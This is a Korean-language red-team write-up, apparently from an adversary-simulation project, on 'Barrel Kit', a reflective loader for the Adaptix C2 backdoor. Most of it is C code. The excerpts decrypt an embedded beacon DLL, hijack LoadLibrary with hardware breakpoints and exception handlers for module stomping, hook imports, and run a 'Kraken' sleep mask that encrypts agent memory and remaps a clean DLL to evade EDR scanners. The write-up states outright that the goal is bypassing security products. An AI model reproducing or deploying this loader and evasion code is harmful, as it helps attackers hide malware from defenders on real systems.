


# 5. Barrel-Kit UDRL

## Struggle & UDRL - Barrel Kit

이번 페이지에서는 Struggle과 오퍼레이션 더블 배럴에서 사용됐던 Reflective Loading 담당의 UDRL (User-Defined Reflective Loader), 그리고 그 안에 들어가는 다양한 기법들에 대해서 알아본다.

### 코드

[https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-kit](https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-kit)

### 데모

<figure><figcaption></figcaption></figure>

## Struggle --> Adaptix C2&#x20;

<figure><figcaption></figcaption></figure>

공격자들이 사용한 메인 백도어 코드. 일반적인 공격자 시뮬레이션에서는 기본적으로 상용 C2 프레임워크를 사용하지만, 공개적인 프로젝트인 만큼 많은 사람들이 확인할 수 있도록 오픈소스 C2 프레임워크 [Adaptix C2](https://github.com/Adaptix-Framework/AdaptixC2/tree/testing-v2.0)를 차용했다. 이후 설명할 UDRL 및 쉘코드 로더만 제대로 제작해도 업계 EDR 솔루션들을 우회하는데에는 큰 문제가 없었기 때문에 Adaptix C2는 있는 그대로 사용했다.

AI를 활용해 백도어/C2 프레임워크 자체를 만드것도나쁘진 않았겠지만, 비슷한 시도도 많이 있었고, 이미 실제 공격자들 또한 오픈소스 C2를 그대로 사용하거나 개조해서 사용하는 경우도 많이 때문에 본 프로젝트에서도 그 방향을 택했다.

Adaptix C2의 소스 코드는 크게 바꾸지 않았다. 하지만, SOCKS Proxy implementation에 있어서 CDN을 사용했을 때의 문제가 있어 프록시 및 터널링 할 때의 트래픽

## UDRL (User-Defined Reflective Loader)

오퍼레이션 더블 배럴에서 간단하게 `Reflective DLL Loading` 이라고 나오지만, 현대 AV/EDR 솔루션들을 우회하는데 있어서 가장 중요한 부분은 UDRL이라고 볼 수 있다. 이 부분은 AI를 이용해서 빠르게 제작해봤다.

UDRL는 꽤 복잡하기 때문에 모든 개념과 기법에 대해 설명할 수 없다. 따라서, 이 글에서는 아래의 개념들만 간단하게 다룬다.

* Reflective Loading
* Module Stomping
* Sleep Masking
* Callstack Spoofing

UDRL 개발에는 Cobalt Strike의 제작자이자, 전설적인(?) Maldev/Red teamer인 [Raphael Mudge](https://aff-wg.org/about/)의 [Crystal Palace (CPL)](https://tradecraftgarden.org/crystalpalace.html) 프로젝트를 활용한다. CPL과 관련된 내용은 너무 길어져 생략한다.

### 전체구조

앞서 몇 번 나왔지만, 오퍼레이션 트리플 배럴에서 개발한 UDRL + 호스트 PE 파일의 구조는 다음과 같다.

<figure><figcaption></figcaption></figure>

이 중, Barrel Kit을 통해 만들어진 UDRL은 #4번부터 #17번까지를 담당한다. 본격적으로 쉘코드가 실행될 때 가장 앞에 PIC 형태로 있는 UDRL이 희생양 DLL 2개를 로드하고, PICO라는 또 다른 PIC와, Adaptix C2의 Beacon DLL를 각각의 DLL에 로드한다. 모든 준비가 끝나면 Beacon DLL로 Execution을 넘기면 된다.

Barrel Kit은 이 UDRL을 만들어주는 키트로서, UDRL 그 자체와 슬립 마스킹 및 다양한 방어 회피 기법을 탑재하는 PICO 제작을 자동화 해준다. UDRL과 PICO에는 다양한 기법들이 있지만, 오퍼레이션 더블 배럴 보고서에 나온 "Reflective Loading"에 대해서 집중적으로 알아본다. 하지만 그 전에, 희생양 DLL들을 불러와 안전한 `.text` 섹션에 Beacon DLL과 PICO를 올리는 모듈 스톰핑 기법과, 쉘코드 (UDRL + BeaconDLL)의 형태에서 UDRL이 어떻게 Beacon DLL을 찾아서 복호화 하는지에 대해서 알아보자.

### 0. UDRL - 리소스 추출 & DLL 복호화

본격적인 모듈스톰핑과 Reflective Loading에 앞서, 쉘코드 데이터 안에 임베디드된 비컨 DLL을 찾아 추출하고 복호화해야 한다. 이를 위해 Crystal Palace(CPL)는 링크 타임에 세 개의 섹션을 PIC 안에 삽입한다:

```c
char _PICO_ [0] __attribute__((section("pico")));   // PICO 런타임 코드
char _MASK_ [0] __attribute__((section("mask")));   // 128바이트 XOR 키
char _DLL_  [0] __attribute__((section("dll")));    // XOR 암호화된 Adaptix DLL
```

배열의 길이가 0처럼 보이지만, 링크 타임 중 CPL이 실제 데이터를 해당 섹션에 채워넣기 때문에 런타임에는 해당 주소에서 바이너리 데이터를 읽을 수 있다. `loader.spec`에서 128바이트 랜덤 키를 생성하고, 에이전트 DLL을 XOR 마스킹한 뒤 링크한다. `go()`에서는 이걸 다시 XOR해서 스테이징 버퍼에 풀어놓는다:

```c
// loader.c:125-132
char * dll_src = KERNEL32$VirtualAlloc(
    NULL, masked_dll->len,
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

for (int i = 0; i < masked_dll->len; i++)
    dll_src[i] = masked_dll->value[i] ^ mask_key->value[i % mask_key->len];
```

복호화된 DLL은 `dll_src`에 올라간다. 이제 이 Beacon DLL과 PICO를 로드할 안전한 메모리 공간을 확보해야 한다. 이를 위에서는 모듈 스톰핑 (Module Stomping) 기법에 대해서 알아보자.

### 1. UDRL - Module Stomping

#### 모듈 스톰핑은 왜 쓸까?

일반적인 `VirtualAlloc(PAGE_EXECUTE_READWRITE)`로 메모리를 할당하면 메모리 스캐너가 즉시 탐지한다. `VirtualAlloc`으로 할당된 메모리는 `MEM_PRIVATE`이고, `MEM_PRIVATE` + `PAGE_EXECUTE*` 조합은 "여기 쉘코드 있습니다"라고 광고하는 것과 다름없다. 상용 EDR은 물론이거니와, 요즘에는 간단한 AV 솔루션들까지 이를 탐지한다. 이를 어찌저찌 우회했다고 하더라도 추후 악성 행위를 할 때 콜 스택 트레이싱(Call Stack Tracing)을 통해 행위가 어디서 시작됐는지를 보면, 굉장히 수상해보이는 `MEM_PRIVATE`이 출발지점으로 찍히게 되고, 이렇게 메모리상의 쉘코드가 탐지된다.

모듈 스톰핑은 이 문제를 우회하는 기법 중 하나다. `LoadLibrary`로 정상 DLL을 로드하고, 그 DLL의 `.text` 섹션 위에 공격자의 코드를 올린다. 이렇게 하면 메모리 타입이 `MEM_IMAGE`(SEC\_IMAGE 기반)로 유지되고, PE 헤더, `.rdata`, `.pdata`도 건드리지 않으니 메모리 스캐너가 보기에 유효한 PE 구조가 그대로 남는다.

```c
// loader.c:139-149 - 두 개의 희생 DLL을 각각 할당
stomp_alloc_pico(pico_code_sz, pico_data_sz, &memory)
char * dll_dst = (char *) stomp_alloc_dll(SizeOfDLL(&dll_data), &memory);
```

Beacon DLL과 PICO는 서로 다른 희생 DLL에 올라간다. 크라켄 슬립(Kraken Sleep) 때문인데, 이에 대해서는 추후 섹션에서 알아본다.

#### HWBP + VEH

그런데, 모듈 스톰핑을 할 때 냅다 그냥 `LoadLibrary` winapi를 사용해 DLL 불러온 다음 `.text` 섹션에다가 쉘코드를 올려버리면 몇 가지 문제가 발생한다.

1. **Copy-on-Write**: `SEC_IMAGE` 페이지에 데이터를 쓰면 CoW로 인해 private page가 되며, `QueryWorkingSetEx`의 Shared bit가 해제되며 바로 탐지된다.
2. **DllMain 실행**: `LoadLibrary`가 완료되면 DLL의 `DllMain`이 실행되면서 원치 않는 초기화나 스레드 생성이 일어난다.
3. **Clean 섹션 핸들**: 나중에 크라켄 슬립에서 에이전트를 언맵한 뒤, 같은 주소에 깨끗한 DLL을 다시 맵핑하려면 on-disk DLL의 `SEC_IMAGE` 섹션 핸들이 필요하다.

이 세 가지 문제를 해결하기 위해 Hardware Breakpoint (HWBP) + Vectored Exception Handler (VEH) 기법을 사용한다.

VEH는 프로세스 전역 예외 핸들러다. `AddVectoredExceptionHandler`로 VEH를 등록하면, 프로세스 내에서 예외가 발생할 때 호출된다. HWBP는 CPU의 디버그 레지스터(DR0\~DR3)에 특정 주소를 설정해두면, 해당 주소의 명령어가 실행될 때 `EXCEPTION_SINGLE_STEP` 예외를 발생시키는 메커니즘이다. 소프트웨어 breakpoint (`INT3`)와 달리 메모리의 바이트를 수정하지 않기 때문에, 무결성 검사를 우회할 수 있다.

이 둘을 조합하면, `LoadLibraryW` 실행 도중 ntdll 내부 함수 세 곳에 HWBP를 걸어두고, 각 브레이크포인트가 트리거될 때 VEH가 인자를 조작하거나 핸들을 가로채는 방식으로 `LoadLibrary`의 동작을 중간에서 바꿀 수 있다.

실제 코드를 보자. `try_stomp()` 안에서 VEH 등록 → HWBP 설치 → `LoadLibraryW` 호출 → HWBP 해제 → VEH 해제가 순차적으로 일어난다:

```c
// load_phantom.c:662-698 - try_stomp() 내부

// 1. ntdll에서 HWBP를 걸 함수 주소를 리졸브
vst->pNtCreateSection    = KERNEL32$GetProcAddress(ntdll, "NtCreateSection");
vst->pNtMapViewOfSection = KERNEL32$GetProcAddress(ntdll, "NtMapViewOfSection");
vst->pRtlImageNtHeaderEx = KERNEL32$GetProcAddress(ntdll, "RtlImageNtHeaderEx");

// 2. VEH 핸들러 등록 (첫 번째 핸들러로, SEH보다 먼저 호출됨)
set_veh_state(vst);
veh_handle = fn_add(1, (PVOID) stomp_exception_handler);

// 3. 별도 워커 스레드를 통해 DR0/DR1/DR2에 HWBP 설치
hwbp_apply(k32, vst->pNtCreateSection, vst->pNtMapViewOfSection, vst->pRtlImageNtHeaderEx, FALSE);

// 4. LoadLibraryW 호출 - 내부에서 HWBP가 트리거되며 VEH가 개입
hModule = apis->LoadLibraryW(path);

// 5. HWBP 해제 + VEH 해제
hwbp_apply(k32, NULL, NULL, NULL, TRUE);   // DR0~DR2 클리어
fn_rem(veh_handle);                        // VEH 핸들러 제거
```

`LoadLibraryW` 내부에서 `NtCreateSection` → `NtMapViewOfSection` → `RtlImageNtHeaderEx`가 순서대로 호출되고, 각각 DR0, DR1, DR2 HWBP가 트리거되며 VEH 핸들러(`stomp_exception_handler`)가 개입한다.

각 브레이크포인트가 트리거됐을 때 VEH 핸들러가 하는 일은 다음과 같다.

**DR0: `NtCreateSection`** - 접근 마스크를 `SECTION_ALL_ACCESS`로 업그레이드한다. 기본적으로 `LoadLibrary`는 `SECTION_MAP_EXECUTE` 정도만 요청하는데, 나중에 Kraken sleep에서 이 섹션을 `NtMapViewOfSection`으로 리맵하려면 더 넓은 권한이 필요하다.

```c
// load_phantom.c:254-336 - VEH 핸들러

// DR0: NtCreateSection
if (addr_hit(rec->ExceptionAddress, st->pNtCreateSection)) {
    ctx->Rdx = SECTION_ALL_ACCESS;  // 나중에 리맵할 수 있도록
    ctx->Dr0 = 0;                   // BP 해제
}
```

**DR1: `NtMapViewOfSection`** - `LoadLibrary`가 만든 섹션 핸들을 `DuplicateHandle`로 복제해서 보관한다. 이 핸들(`hSacSection`)이 Kraken sleep의 열쇠다.

```c
// DR1: NtMapViewOfSection
if (addr_hit(rec->ExceptionAddress, st->pNtMapViewOfSection)) {
    KERNEL32$DuplicateHandle(
        -1, (HANDLE) ctx->Rcx,      // LoadLibrary가 만든 섹션 핸들
        -1, &st->hSacSection,       // (!!중요!!) 크라켄 슬립을 위해 보관할 섹션 핸들 복제본
        0, 0, DUPLICATE_SAME_ACCESS);
}
```

**DR2: `RtlImageNtHeaderEx`** - LDR 엔트리를 찾아서 `EntryPoint`를 `ret` 가젯으로, `TlsIndex`를 `-1`로 패치한다. `EntryPoint`가 `ret`이 되면 `DllMain`이 호출되더라도 아무것도 안 하고 바로 리턴하고, `TlsIndex`가 `-1`이면 TLS 콜백도 방지된다.

```c
// DR2: RtlImageNtHeaderEx
if (addr_hit(rec->ExceptionAddress, st->pRtlImageNtHeaderEx)) {
    // LDR 엔트리 탐색 후:
    // EntryPoint → ret 가젯 (DllMain이 no-op)
    // TlsIndex → -1 (TLS 콜백 방지)
    patch_ldr_entry(st);
}
```

#### Chunked VirtualProtect

DLL을 로드했다면 쉘코드를 쓰기 위해 `.text` 섹션의 권한을 RW로 바꾼다. Drip loading처럼, 메모리의 권한을 조금씩 바꾸는 Drip protect를 실행한다.

```c
// load_phantom.c:496-510
#define STOMP_VP_CHUNK 0x2000

BOOL stomp_protect_chunked(FN_VirtualProtect vp, LPVOID base, SIZE_T size, DWORD prot)
{
    for (off = 0; off < size; off += STOMP_VP_CHUNK) {
        SIZE_T chunk = size - off;
        if (chunk > STOMP_VP_CHUNK) chunk = STOMP_VP_CHUNK;
        vp((char *) base + off, chunk, prot, &old);
    }
}
```

#### PICO 복사

`LoadLibraryW` + VEH/HWBP로 희생 DLL을 안전하게 로드하고, Chunked VirtualProtect로 `.text`를 RW로 만들었으면, 이제 PICO를 복사할 차례다. PICO는 PE가 아니라 PIC이기 때문에 rDLL 같은 복잡한 로딩이 필요 없다. Crystal Palace의 `PicoLoad()`를 사용한다.

```c
// loader.c:153-175
char * pico_code = (char *) memory.Pico.Code;   // 희생 DLL #1의 .text
char * pico_data = (char *) memory.Pico.Data;   // 희생 DLL #1의 .data

// PICO 바이트를 희생 DLL의 .text/.data에 복사 + 포인터 패치
PicoLoad(&funcs, pico_src, pico_code, pico_data);

// 복사가 끝났으니 .text를 RX로 되돌림
stomp_protect_chunked(KERNEL32$VirtualProtect,  pico_code, pico_code_sz, PAGE_EXECUTE_READ);
```

Beacon DLL은 PE 구조를 가지고 있으니, PICO처럼 단순 복사가 아니라 rDLL (Reflective DLL Loading)로 처리해야 한다. 이건 바로 다음 섹션에서 다룬다.

#### 정리 작업

모듈 스톰핑이 끝나면 후처리를 한다:

1. 희생 DLL이 생성했을 수 있는 스레드들을 `kill_module_threads()`로 종료 (`.text` 범위 안에 시작 주소가 있는 스레드 탐색)
2. `.text`를 제로 초기화 (PICO BSS 영역 필요)
3. `ADV_STOMP_DATA` 구조체를 채워서 `MEMORY_LAYOUT`에 저장 - Kraken sleep이 이 데이터를 사용한다

### 2. UDRL - Reflective DLL Loading (rDLL)

모듈 스톰핑으로 안전한 메모리 공간을 확보했으면, 본격적으로 rDLL을 진행한다. Barrel-Kit에서는 Crystal Palace의 LibTCG에 있는 코드를 사용해 rDLL을 하지만, rDLL이 정확히 어떻게 이뤄지는지 간단하게 소스코드를 훑어본다.

PE파일 구조와 rDLL은 잘 알려진 지식/정보이기 때문에 빠르게 넘어간다.

rDLL은 다음과 같이 이뤄진다:

1. PE 구조 파싱
2. 헤더 + 섹션 복사
3. Relocation
4. IAT 처리
5. 섹션 권한 설정
6. DLLMain() 실행

```c
// loader.c:183-204
LoadDLL(&dll_data, dll_src, dll_dst);
ProcessImports(&funcs, &dll_data, dll_dst);

fix_permissions(&dll_data, dll_dst, &memory.Dll);

DLLMAIN_FUNC entry = EntryPoint(&dll_data, dll_dst);
entry((HINSTANCE) dll_dst, DLL_PROCESS_ATTACH, NULL);
```

#### 1. PE Parsing

DLL 바이너리에서 DOS 헤더 → NT 헤더 → Optional 헤더를 추출한다. 이후 모든 단계가 이 구조체들을 참조한다.

```c
// libtcg/loaddll.c
void ParseDLL(char * src, DLLDATA * data) {
    data->DosHeader      = (IMAGE_DOS_HEADER *)src;
    data->NtHeaders      = (IMAGE_NT_HEADERS *)(src + data->DosHeader->e_lfanew);
    data->OptionalHeader = (IMAGE_OPTIONAL_HEADER *)&(data->NtHeaders->OptionalHeader);
}
```

#### 2. 헤더 + 섹션 복사

`LoadDLL()`은 먼저 PE 헤더를 목적지에 복사한 뒤, 각 섹션(`.text`, `.data`, `.rdata`, 등)을 하나씩 올린다.

```c
// libtcg/loaddll.c
void LoadDLL(DLLDATA * dll, char * src, char * dst) {
    __movsb((unsigned char *)dst, (unsigned char *)src, dll->OptionalHeader->SizeOfHeaders);
    LoadSections(dll, src, dst);
    ProcessRelocations(dll, src, dst);
}

void LoadSections(DLLDATA * dll, char * src, char * dst) {
    DWORD numberOfSections = dll->NtHeaders->FileHeader.NumberOfSections;
    IMAGE_SECTION_HEADER * sectionHdr = (IMAGE_SECTION_HEADER *)
        PTR_OFFSET(dll->OptionalHeader, dll->NtHeaders->FileHeader.SizeOfOptionalHeader);

    for (int x = 0; x < numberOfSections; x++) {
        __movsb(dst + sectionHdr->VirtualAddress,
                src + sectionHdr->PointerToRawData,
                sectionHdr->SizeOfRawData);
        sectionHdr++;
    }
}
```

#### 3. Relocation

Relocation을 통해 DLL PE 파일에서 의도했던 베이스 주소 (`ImageBase`)와 실제 로드된 주소 (`dst`)가 다를거기 때문에, 절대 주소를 참조하는 모든 코드를 Relocation Table에서 찾아 재배치 해준다.

```c
// libtcg/loaddll.c
void ProcessRelocations(DLLDATA * dll, char * src, char * dst) {
    IMAGE_DATA_DIRECTORY * relocationData = 
        GetDataDirectory(dll, IMAGE_DIRECTORY_ENTRY_BASERELOC);
    ULONG_PTR newBaseAddress = (ULONG_PTR)dst - (ULONG_PTR)dll->OptionalHeader->ImageBase;

    if (relocationData->Size) {
        IMAGE_BASE_RELOCATION * relocation = 
            (IMAGE_BASE_RELOCATION *)(dst + relocationData->VirtualAddress);

        while (relocation->SizeOfBlock) {
            ProcessRelocation(dll, src, dst, relocation, newBaseAddress);
            relocation = (IMAGE_BASE_RELOCATION *)
                PTR_OFFSET(relocation, relocation->SizeOfBlock);
        }
    }
}
```

`newBaseAddress`는 원래 주소와 실제 주소의 차이(delta)다. Relocation 테이블의 각 엔트리에 이 delta를 더해주면 된다. x64에서는 대부분 `IMAGE_REL_BASED_DIR64` 타입이다.

#### 4. Import 처리 (IAT)

DLL이 사용하는 외부 API들의 주소를 리졸브(resolve)해서 IAT(Import Address Table)에 채워넣는다.

```c
// libtcg/loaddll.c
void ProcessImport(IMPORTFUNCS * funcs, DLLDATA * dll, char * dst, 
                   IMAGE_IMPORT_DESCRIPTOR * importDesc) {
    void * hLib = (void *)funcs->LoadLibraryA(
        (char *)PTR_OFFSET(dst, importDesc->Name));

    IMAGE_THUNK_DATA * firstThunk = 
        (IMAGE_THUNK_DATA *)PTR_OFFSET(dst, importDesc->FirstThunk);
    IMAGE_THUNK_DATA * originalFirstThunk = 
        (IMAGE_THUNK_DATA *)PTR_OFFSET(dst, importDesc->OriginalFirstThunk);

    while (DEREF(firstThunk)) {
        if (originalFirstThunk && (originalFirstThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG)) {
            DEREF(firstThunk) = (ULONG_PTR)funcs->GetProcAddress(
                hLib, (char *)IMAGE_ORDINAL(originalFirstThunk->u1.Ordinal));
        } else {
            IMAGE_IMPORT_BY_NAME * importByName = 
                (IMAGE_IMPORT_BY_NAME *)PTR_OFFSET(dst, firstThunk->u1.AddressOfData);
            DEREF(firstThunk) = (ULONG_PTR)funcs->GetProcAddress(
                hLib, (char *)importByName->Name);
        }
        firstThunk++;
        if (originalFirstThunk) originalFirstThunk++;
    }
}
```

여기서 중요한 건 `funcs->GetProcAddress`다. 이 시점에서 PICO의 `setup_hooks()`가 이미 실행된 상태이기 때문에, `funcs->GetProcAddress`는 진짜 `GetProcAddress`가 아니라 PICO의 `_GetProcAddress`를 가리킨다. 즉, IAT에 API 주소를 채우는 과정에서 자동으로 PICO의 훅 함수들이 끼워들어간다. `Sleep` → `_KrakenSleep`, `HeapAlloc` → `_HeapAlloc`, `WaitForSingleObject` → `_WaitForSingleObject` 등, 에이전트가 호출하는 34개의 API가 PICO를 경유하게 된다.

#### 5. 섹션 권한 설정

마지막으로, 각 섹션에 적절한 메모리 permission을 부여한다.

```c
// loader.c:78-103
static void fix_permissions(DLLDATA * dll, char * dst, DLL_MEMORY * dll_mem) {
    DWORD count = dll->NtHeaders->FileHeader.NumberOfSections;
    IMAGE_SECTION_HEADER * sec = (IMAGE_SECTION_HEADER *)
        PTR_OFFSET(dll->OptionalHeader, dll->NtHeaders->FileHeader.SizeOfOptionalHeader);

    for (int i = 0; i < (int) count; i++) {
        DWORD prot = section_protect(sec->Characteristics);
        DWORD sz   = sec->Misc.VirtualSize > sec->SizeOfRawData
                   ? sec->Misc.VirtualSize : sec->SizeOfRawData;

        stomp_protect_chunked(KERNEL32$VirtualProtect,
            dst + sec->VirtualAddress, sz, prot);
        sec++;
    }
}
```

#### 6. DllMain 실행

모든 준비가 끝나면, Optional 헤더의 `AddressOfEntryPoint`를 통해 DllMain을 호출한다.

```c
// loader.c:192-195
DLLMAIN_FUNC entry = EntryPoint(&dll_data, dll_dst);
KERNEL32$VirtualFree(dll_src, 0, MEM_RELEASE);   // 스테이징 버퍼 해제
entry((HINSTANCE) dll_dst, DLL_PROCESS_ATTACH, NULL);
```

이 시점에서 Adaptix C2 에이전트가 시작된다. 스테이징 버퍼(복호화된 DLL 원본)는 더 이상 필요 없으므로 해제한다.

### 3. PICO - Kraken Sleeping

Adaptix C2 에이전트 (Beacon DLL)이 실행되면, 악성 행위를 진행한다. 그 뒤, Sleep을 한다. 에이전트가 Sleep을 호출하면, `pico.spec`에서 선언되었던 IAT 훅을 통해 PICO의 `_KrakenSleep`이 실행된다.

대략적인 크라켄 슬립의 큰 그림은 다음과 같이 이뤄진다:

```c
// sleep_kraken_adv.c:301-317
// 에이전트 Sleep -> PICO IAT hook -> _KrakenSleep() 실행 
VOID WINAPI _KrakenSleep(DWORD milliseconds)
{
    if (milliseconds >= 1500 && g_memory.DllAllocMethod == ALLOC_MODULESTOMP) {
        HANDLE never = KERNEL32$CreateEventA(NULL, TRUE, FALSE, NULL);
        BOOL ok = kraken_wait(&g_memory, never, milliseconds, &result);
        KERNEL32$CloseHandle(never);
        if (ok) return;
    }
    real_sleep(milliseconds);
}

// sleep_kraken_adv.c:241-298
// 크라켄 슬립을 위한 준비 
BOOL kraken_wait(MEMORY_LAYOUT * memory, HANDLE handle, DWORD milliseconds, PDWORD result)
{
    // API 함수 포인터 리졸브 
    // 백업 버퍼 초기화, RC4 키 생성, KRAKEN_PARAMS 채우기 
    // .  . . 

    ok = run_kraken(&params);
    if (ok) *result = params.waitResult;
    return ok;
}

// sleep_kraken_adv.c:80-154
// 크라켄 슬립. 아래 섹션에서 더 자세히 설명
static BOOL run_kraken(KRAKEN_PARAMS * p)
{
    // 1. mapped image 범위 → 백업 
    // 2. RC4 암호화 (백업 + 힙)
    // 3. NtUnmapViewOfSection (에이전트 이미지 언맵)
    // 4. NtMapViewOfSection (hSacSection → 클린 DLL 리맵)
    // 5. WaitForSingleObjectEx (슬립)
    // 6. RC4 복호화 → .text 복원 → 섹션 권한 복구
    return TRUE;
}
```

#### Ekko vs. Kraken

공개적으로 가장 널리 알려진 sleep masking 기법은 `CreateTimerQueueTimer`를 사용하는 Ekko다. 타이머 큐(Timer Queue)에 `NtContinue()` 기반의 ROP 체인을 등록하고, `VirtualProtect(RW)` → `SystemFunction032(암호화)` → `WaitForSingleObjectEx(대기)` → `SystemFunction032(복호화)` → `VirtualProtect(RX)` - 이 순서대로 OS 타이머 스레드가 체인을 실행하는 방식이다. 메인 스레드는 중간에 멈추지 않고, 다른 스레드가 전부 처리해주기 때문에 구현이 깔끔하다.

하지만 Ekko 스타일에는 한계가 있다. 타이머 콜백의 인자가 하나(`PVOID`)뿐이라 복잡한 로직을 넣기 어렵고, 콜백 체인의 실행 순서에 의존하는 구조라 디버깅이 까다롭다. 무엇보다 `CreateTimerQueueTimer`에 `VirtualProtect`, `SystemFunction032` 같은 함수 포인터를 콜백으로 등록하는 패턴 자체가 잘 탐지된다.

Kraken은 타이머 큐 대신 **에이전트의 메인 스레드가 PICO 코드를 경유해서 직접** sleep masking 로직을 실행한다. 에이전트가 `Sleep`이나 `WaitForSingleObject`를 호출하면, CPL의 IAT 훅을 통해 PICO의 `_KrakenSleep` → `kraken_wait()` → `run_kraken()`이 같은 스레드에서 순차 실행된다. 별도 스레드에 위임하지 않기 때문에 타이밍 이슈가 없고, 확장도 자유롭다.

중요한 점은 실제 크라켄 코드가 실행되는 메모리상의 주소는 PICO가 맵핑된 곳이며, 여긴 별도의 희생 DLL 이라는 점이다. `run_kraken()`이 에이전트 이미지를 `NtUnmapViewOfSection`으로 언맵(Unmap) 하는 순간, 실행 중인 코드가 그 이미지 안에 있으면 크래시한다. 하지만 PICO가 다른 DLL에 있으니까 에이전트가 로드되어 있던 이미지가 날아가도 PICO 코드는 살아남아 슬립을 계속 실행할 수 있다. UDRL의 구조를 Loader / PICO 두 개로 나눈 이유이자, 위 모듈 스톰핑에서 희생양 DLL을 2개 따로따로 맵핑한 이유이기도 하다.

#### Kraken Sleep: 백업 → 암호화 → 언맵 → 리맵 → 대기

`run_kraken()`의 전반부. Beacon DLL의 메모리와 힙을 백업 및 암호화하고, 로드되어 있던 DLL를 언맵(Unmap) 한 뒤, 완전히 깨끗한 실제 DLL을 다시 리맵(Remap)한다. 그 뒤, 슬립에 들어간다.

```c
// sleep_kraken_adv.c:80-120

// 1. 에이전트 코드(.text)를 백업 버퍼에 복사
for (i = 0; i < p->stompSize; i++)
    ((BYTE *) p->backup)[i] = ((BYTE *) p->stompStart)[i];

// 2. RC4로 백업 암호화 (SystemFunction032)
key.Buffer = p->key;
key.Length = key.MaximumLength = KRAKEN_KEY_LEN;
data.Buffer = p->backup;
data.Length = data.MaximumLength = (DWORD) p->stompSize;
p->crypt(&data, &key);

// 3. Beacon이 했던 힙 할당도 전부 RC4 암호화
for (i = 0; i < p->heapCount; i++) {
    HEAP_RECORD * record = &p->heapRecords[i];
    if (record->Address == NULL || record->Size == 0)
        continue;
    data.Buffer = record->Address;
    data.Length = data.MaximumLength = (DWORD) record->Size;
    p->crypt(&data, &key);
}

// 4. 에이전트가 올라가 있는 stomped 이미지를 언맵
status = p->unmap((HANDLE)(LONG_PTR) -1, p->imageBase);

// 5. 같은 주소에 깨끗한 DLL을 리맵
base = p->imageBase;
viewSize = 0;
status = p->map(
    p->hSection,                    // 모듈 스톰핑 때 캡처한 깨끗한 섹션 핸들
    (HANDLE)(LONG_PTR) -1,
    &base, 0, 0, NULL, &viewSize,
    2, 0, PAGE_READONLY);

// === 이 시점에서 메모리 스캐너가 돌면: 깨끗한 System32 DLL만 보인다 ===

// 6. 실제 대기
p->waitResult = p->wait(p->waitHandle, p->milliseconds, FALSE);
```

4번의 `NtUnmapViewOfSection`으로 에이전트 코드가 있던 메모리를 날리고, 5번의 `NtMapViewOfSection`으로 같은 주소에 클린 DLL을 리맵한다. 여기서 사용하는 `p->hSection`이 바로 모듈 스톰핑 때 VEH/HWBP로 `LoadLibrary` 도중에 캡처해둔 깨끗한 섹션 핸들이다. Sleep 중에는 메모리 스캐너가 봐도 정상적인 System32 DLL만 보이고, 힙 데이터는 RC4로 암호화되어 있다.

#### Sleep 복구: 복호화 → 권한 변경 → 복원 → 섹션 권한 복구

`run_kraken()`의 후반부. 대기가 끝나면 에이전트를 원래 상태로 되살린다.

```c
// sleep_kraken_adv.c:122-153

// 7. 백업 데이터 RC4 복호화
data.Buffer = p->backup;
data.Length = data.MaximumLength = (DWORD) p->stompSize;
p->crypt(&data, &key);

// 8. 힙 데이터도 전부 RC4 복호화
for (i = 0; i < p->heapCount; i++) {
    HEAP_RECORD * record = &p->heapRecords[i];
    if (record->Address == NULL || record->Size == 0)
        continue;
    data.Buffer = record->Address;
    data.Length = data.MaximumLength = (DWORD) record->Size;
    p->crypt(&data, &key);
}

// 9. 리맵된 클린 이미지의 .text 영역을 RW로 변경 (쓰기 가능하게)
for (i = 0; i < p->stompSize; i += VP_CHUNK) {
    SIZE_T chunk = p->stompSize - i;
    if (chunk > VP_CHUNK) chunk = VP_CHUNK;
    p->protect((BYTE *) p->stompStart + i, chunk, PAGE_READWRITE, &old);
}

// 10. 백업에서 에이전트 바이트를 .text에 복원
for (i = 0; i < p->stompSize; i++)
    ((BYTE *) p->stompStart)[i] = ((BYTE *) p->backup)[i];

// 11. 각 섹션의 원래 메모리 보호 속성 복원
for (i = 0; i < p->sectionCount; i++) {
    MEMORY_SECTION * section = &p->sections[i];
    if (section->BaseAddress == NULL || section->Size == 0)
        continue;
    p->protect(section->BaseAddress, section->Size,
               section->CurrentProtect, &old);
}
```

